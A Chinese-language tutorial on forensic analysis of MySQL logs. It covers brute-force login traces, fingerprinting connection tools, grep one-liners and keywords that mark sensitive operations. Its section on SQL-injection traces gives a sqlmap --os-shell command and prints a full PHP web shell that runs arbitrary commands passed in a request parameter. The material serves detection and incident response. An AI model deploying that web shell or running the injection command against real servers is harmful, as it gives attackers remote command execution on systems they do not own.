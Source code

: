 # 第5篇:MySQL日志分析

常见的数据库攻击包括弱口令、SQL注入、提升权限、窃取备份等。对数据库日志进行分析，可以发现攻击行为，进一步还原攻击场景及追溯攻击源。

## 0x01 Mysql日志分析

general query log能记录成功连接和每次执行的查询，我们可以将它用作安全布防的一部分，为故障分析或黑客事件后的调查提供依据。

```text
1、查看log配置信息
show variables like '%general%';
2、开启日志
SET GLOBAL general_log = 'On';
3、指定日志文件路径
#SET GLOBAL general_log_file = '/var/lib/mysql/mysql.log';
```

比如，当我访问 /test.php?id=1，此时我们得到这样的日志：

```text
190604 14:46:14       14 Connect    root@localhost on 
           14 Init DB    test
           14 Query    SELECT * FROM admin WHERE id = 1
           14 Quit  `
```

我们按列来解析一下：

```text
第一列:Time，时间列，前面一个是日期,后面一个是小时和分钟，有一些不显示的原因是因为这些sql语句几乎是同时执行的,所以就不另外记录时间了。
第二列:Id，就是show processlist出来的第一列的线程ID,对于长连接和一些比较耗时的sql语句,你可以精确找出究竟是那一条那一个线程在运行。
第三列:Command，操作类型，比如Connect就是连接数据库，Query就是查询数据库(增删查改都显示为查询)，可以特定过虑一些操作。
第四列:Argument，详细信息，例如 Connect    root@localhost on 意思就是连接数据库，如此类推,接下面的连上数据库之后,做了什么查询的操作。
```

## 0x02 登录成功/失败

我们来做个简单的测试吧，使用我以前自己开发的弱口令工具来扫一下，字典设置比较小，2个用户，4个密码，共8组。

![](../.gitbook/assets/log-5-1.png)

MySQL中的log记录是这样子：

```text
Time                 Id        Command         Argument

190601 22:03:20       98 Connect    root@192.168.204.1 on 
           98 Connect    Access denied for user 'root'@'192.168.204.1' (using password: YES)
          103 Connect    mysql@192.168.204.1 on 
          103 Connect    Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
          104 Connect    mysql@192.168.204.1 on 
          104 Connect    Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
          100 Connect    root@192.168.204.1 on 
          101 Connect    root@192.168.204.1 on 
          101 Connect    Access denied for user 'root'@'192.168.204.1' (using password: YES)
           99 Connect    root@192.168.204.1 on 
           99 Connect    Access denied for user 'root'@'192.168.204.1' (using password: YES)
          105 Connect    mysql@192.168.204.1 on 
          105 Connect    Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
          100 Query    set autocommit=0
          102 Connect    mysql@192.168.204.1 on 
          102 Connect    Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
          100 Quit    `
```

你知道在这个口令猜解过程中，哪个是成功的吗？

利用爆破工具，一个口令猜解成功的记录是这样子的：

```text
190601 22:03:20     100 Connect    root@192.168.204.1 on 
       100 Query    set autocommit=0
       100 Quit
```

但是，如果你是用其他方式，可能会有一点点不一样的哦。

Navicat for MySQL登录：

```text
190601 22:14:07      106 Connect    root@192.168.204.1 on 
                 106 Query    SET NAMES utf8
                 106 Query    SHOW VARIABLES LIKE 'lower_case_%'
                 106 Query    SHOW VARIABLES LIKE 'profiling'
                 106 Query    SHOW DATABASES
```

命令行登录：

```text
190601 22:17:25      111 Connect    root@localhost on 
                 111 Query    select @@version_comment limit 1
190601 22:17:56      111 Quit
```

这个差别在于，不同的数据库连接工具，它在连接数据库初始化的过程中是不同的。通过这样的差别，我们可以简单判断出用户是通过连接数据库的方式。

另外，不管你是爆破工具、Navicat for MySQL、还是命令行，登录失败都是一样的记录。

登录失败的记录：

```text
102 Connect    mysql@192.168.204.1 on 
102 Connect    Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
```

利用shell命令进行简单的分析：

```text
#有哪些IP在爆破？
grep  "Access denied" mysql.log |cut -d "'" -f4|uniq -c|sort -nr
     27 192.168.204.1

#爆破用户名字典都有哪些？
grep  "Access denied" mysql.log |cut -d "'" -f2|uniq -c|sort -nr
     13 mysql
     12 root
      1 root
      1 mysql
```

在日志分析中，特别需要注意一些敏感的操作行为，比如删表、备库，读写文件等。关键词：drop table、drop function、lock tables、unlock tables、load\_file\(\) 、into outfile、into dumpfile。

敏感数据库表：SELECT  _from mysql.user、SELECT_  from mysql.func

## 0x03  SQL注入入侵痕迹

在利用SQL注入漏洞的过程中，我们会尝试利用sqlmap的--os-shell参数取得shell，如操作不慎，可能留下一些sqlmap创建的临时表和自定义函数。我们先来看一下sqlmap os-shell参数的用法以及原理：

1、构造一个SQL注入点，开启Burp监听8080端口

`sqlmap.py -u http://192.168.204.164/sql.php?id=1 --os-shell --proxy=http://127.0.0.1:8080`

HTTP通讯过程如下：

![](../.gitbook/assets/log-5-3.png)

创建了一个临时文件tmpbwyov.php，通过访问这个木马执行系统命令，并返回到页面展示。

tmpbwyov.php：

&lt;?php $c=$\_REQUEST\["cmd"\];@set\_time\_limit\(0\);@ignore\_user\_abort\(1\);@ini\_set\('max\_execution\_time',0\);$z=@ini\_get\('disable\_functions'\);if\(!empty\($z\)\){$z=preg\_replace\('/\[, \]+/',',',$z\);$z=explode\(',',$z\);$z=array\_map\('trim',$z\);}else{$z=array\(\);}$c=$c." 2&gt;&1\n";function f\($n\){global $z;return is\_callable\($n\)and!in\_array\($n,$z\);}if\(f\('system'\)\){ob\_start\(\);system\($c\);$w=ob\_get\_contents\(\);ob\_end\_clean\(\);}elseif\(f\('proc\_open'\)\){$y=proc\_open\($c,array\(array\(pipe,r\),array\(pipe,w\),array\(pipe,w\)\),$t\);$w=NULL;while\(!feof\($t\[1\]\)\){$w.=fread\($t\[1\],512\);}@proc\_close\($y\);}elseif\(f\('shell\_exec'\)\){$w=shell\_exec\($c\);}elseif\(f\('passthru'\)\){ob\_start\(\);passthru\($c\);$w=ob\_get\_contents\(\);ob\_end\_clean\(\);}elseif\(f\('popen'\)\){$x=popen\($c,r\);$w=NULL;if\(is\_resource\($x\)\){while\(!feof\($x\)\){$w.=fread\($x,512\);}}@pclose\($x\);}elseif\(f\('exec'\)\){$w=array\(\);exec\($c,$w\);$w=join\(chr\(10\),$w\).chr\(10\);}else{$w=0;}print "";?&gt;\`

创建了一个临时表sqlmapoutput，调用存储过程执行系统命令将数据写入临时表，然后取临时表中的数据展示到前端。

通过查看网站目录中最近新建的可疑文件，可以判断是否发生过sql注入漏洞攻击事件。

检查方法：

1、检查网站目录下，是否存在一些木马文件：

![](../.gitbook/assets/log-5-4.png)

2、检查是否有UDF提权、MOF提权痕迹

检查目录是否有异常文件

mysql\lib\plugin

c:/windows/system32/wbem/mof/

检查函数是否删除

`select * from mysql.func`

3、结合web日志分析。

